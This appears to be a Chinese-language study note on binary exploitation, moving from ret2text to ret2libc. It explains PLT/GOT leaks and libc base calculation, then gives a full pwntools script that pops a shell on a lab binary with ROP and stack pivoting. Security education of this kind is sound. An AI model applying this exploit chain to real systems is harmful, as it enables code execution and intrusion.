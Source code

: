 # Week5

## from ret2text to ret2libc

### 使用程序自带的函数

- 跳到 .plt entry
- 函数参数直接放在接下来的栈上
- 用 pop-ret 清除用过的参数

![](image-20200721061423245.png)

### 使用 libc 里的函数

- printf, gets, puts 等都在 libc.so.6
- ROP 直接调用 libc 中的 system
- 使用条件：
  - libc 版本或函数 offset 已知
  - 开启 ASLR 后的 libc 地址随机
- Dynamically Linked ELF:
  - `ldd $binary` 获取 libc 路径
  - `readelf -s $libc` 读 libc 的 symbol
  - `LD_LIBRARY_PATH=$path_to_libc` 指定要载入的 libc 

### 推算 libc base

- 函数在 libc 中的相对位置不变
- 泄露 __libc_start_main 的 got 表内容
  - ROP 构造 `puts(__libc_start_main@got)`
  - 要泄露的 got entry 函数必须调用过
- 已知 libc 版本

**总之就是想调用就跳到 plt，想 leak 就 puts got。**

一个比较有趣的事，开始想用 leak `__libc_start_main`，但是这个版本的 libc 里的地址是 `0001ee00`，所以 puts 输出的时候上来就是一个 `\x00`，不能用了。换了一个 `setvbuf`，都是一样的：

```c++
##coding=utf8
from pwn import *

# r = remote('127.0.0.1', 8888)
r = process('./p3')
offset = 0xffffd5e8 - 0xffffd5d6 + 4

gets = 0x8048350
puts = 0x8048360
libc_start_main_got = 0x0804a018
setvbuf_got = 0x0804a01c
pop_ebp_ret = 0x0804854b
leave_ret = 0x08048408
buf = 0x0804af80
buf2 = 0x0804a880

rop1 = [
    puts,
    pop_ebp_ret,
    # libc_start_main_got,
    setvbuf_got,
    gets,
    pop_ebp_ret,
    buf,
    pop_ebp_ret,
    buf - 4,
    leave_ret,
]

# raw_input()
r.sendline('a'*offset + ''.join(map(p32, rop1)))
print 'recv1:', r.recvline()

setvbuf = r.recvline()
print 'recv2:', "".join("{:x}".format(ord(c)) for c in setvbuf)
libc_base = u32(setvbuf[:4]) - 0x0006fd30
print 'libc base addr = ', hex(libc_base)

system = libc_base + 0x0044620

rop2 = [
    gets,
    system,
    buf2,
    buf2,
]

r.sendline(''.join(map(p32, rop2)))
r.sendline('/bin/sh\x00')
r.interactive()
```

### Stack Migration 构造长 ROP chain

![](image-20200721101237783.png)

